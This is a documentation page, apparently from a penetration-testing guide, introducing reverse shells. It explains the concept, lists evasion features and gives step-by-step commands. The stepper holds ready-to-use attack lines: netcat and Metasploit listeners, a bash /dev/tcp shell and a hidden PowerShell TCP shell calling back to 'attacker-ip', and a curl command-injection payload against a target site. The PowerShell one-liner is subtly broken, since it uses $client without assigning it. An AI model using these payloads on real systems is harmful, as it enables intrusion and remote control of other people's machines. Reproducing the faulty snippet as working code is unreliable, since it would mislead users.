 ```yaml
---
title: The Expert's Reverse Shells Guide
description: A comprehensive guide to creating and using reverse shells for penetration testing
---
```


Welcome to the comprehensive Reverse Shells guide. This documentation provides detailed instructions on understanding, creating, and utilizing reverse shells, one of the most essential techniques in penetration testing and post-exploitation phases of security assessments.

<Tabs defaultValue="overview" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="overview">Overview</TabsTrigger>
    <TabsTrigger value="features">Key Concepts</TabsTrigger>
    <TabsTrigger value="versions">Evolution</TabsTrigger>
  </TabsList>
  <TabsContent value="overview">
    A reverse shell is a type of shell in which the target machine initiates a connection back to the attacker's machine, giving the attacker command-line access to the compromised system. Unlike a bind shell, where the attacker connects to a listening port on the target, a reverse shell bypasses inbound firewall restrictions by establishing an outbound connection, making it a preferred method for penetration testers and attackers alike.
  </TabsContent>
  <TabsContent value="features">
    - **Connection Initiation**: Target machine connects back to the attacker
    - **Firewall Bypass**: Leverages outbound connections which are often less restricted
    - **Multiple Implementation Methods**: Available in various programming languages and system utilities
    - **Cross-Platform Compatibility**: Can be executed on Windows, Linux, macOS, and other operating systems
    - **Session Management**: Can be upgraded to more stable and feature-rich shells
    - **Evasion Capabilities**: Can be encoded or obfuscated to bypass security controls
  </TabsContent>
  <TabsContent value="versions">
    - **Early Implementations** (1990s): Basic netcat shells and simple Perl/Python scripts
    - **Web-Based Shells** (2000s): PHP, ASP, and JSP reverse shells for web server exploitation
    - **PowerShell Revolution** (2010s): Advanced PowerShell-based reverse shells with enhanced evasion
    - **Modern Techniques** (Present): Encrypted, staged, and fileless reverse shells with sophisticated evasion capabilities
  </TabsContent>
</Tabs>

## Why Use Reverse Shells?

- **Firewall Bypass**: Reverse shells initiate outbound connections, which are typically allowed through firewalls, unlike inbound connections that are often blocked
- **Post-Exploitation Tool**: Essential for maintaining access after initial exploitation of a vulnerability
- **Remote Command Execution**: Provides interactive command-line access to execute commands on the target system
- **Versatility**: Can be implemented in numerous programming languages and using various system utilities
- **Pivoting Capability**: Allows for lateral movement within a network from the compromised host

## Getting Started with Reverse Shells

<Stepper>
  <StepperItem title="Set Up a Listener">
    Before executing a reverse shell on the target, you need to set up a listener on your attacking machine:
    ```bash
    # Using Netcat
    nc -lvnp 4444
    
    # Using Metasploit
    use multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp  # or another appropriate payload
    set LHOST your-ip-address
    set LPORT 4444
    run
    ```
    The `-l` flag puts netcat in listen mode, `-v` enables verbose output, `-n` prevents DNS resolution, and `-p` specifies the port.
  </StepperItem>
  <StepperItem title="Choose the Right Shell">
    Select a reverse shell appropriate for the target system's environment:
    ```bash
    # For Linux/Unix targets (Bash)
    bash -i >& /dev/tcp/attacker-ip/4444 0>&1
    
    # For Windows targets (PowerShell)
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("attacker-ip",4444);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String);$sendback2=$sendback+"PS "+(pwd).Path+"> ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    ```
    Choose based on the target's operating system, available interpreters, and security controls.
  </StepperItem>
  <StepperItem title="Execute the Shell">
    Deploy the reverse shell on the target system through an available attack vector:
    ```bash
    # Example: Exploiting a command injection vulnerability
    curl -X POST https://vulnerable-site.com/process.php --data "parameter=; bash -i >& /dev/tcp/attacker-ip/4444 0>&1"
    ```
    The execution method depends on the vulnerability you're exploiting (command injection, file upload, etc.).
  </StepperItem>
  <StepperItem title="Upgrade Your Shell">
    Once connected, upgrade to a more stable and feature-rich shell:
    ```bash
    # On the target (Linux)
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    # Press Ctrl+Z to background the shell, then:
    stty raw -echo; fg
    
    # On the target again
    export TERM=xterm
    ```
    This provides tab completion, command history, and the ability to use interactive commands.
  </StepperItem>
</Stepper>

## Guide Structure

This guide is organized into several sections:

1. **Core Concepts**: Understanding reverse shells, their mechanics, and fundamental principles
2. **Types of Reverse Shells**: Various implementations across different languages and platforms
3. **Advanced Techniques**: Multi-staged shells, encrypted communications, and persistence methods
4. **Evasion Techniques**: Bypassing antivirus, IDS/IPS, and other security controls
5. **Best Practices**: Ethical usage, detection methods, and defensive countermeasures

Each section provides detailed explanations, command examples, and real-world use cases to help you understand and ethically utilize reverse shells in penetration testing scenarios.

Let's begin with understanding the core concepts and mechanics of reverse shells.
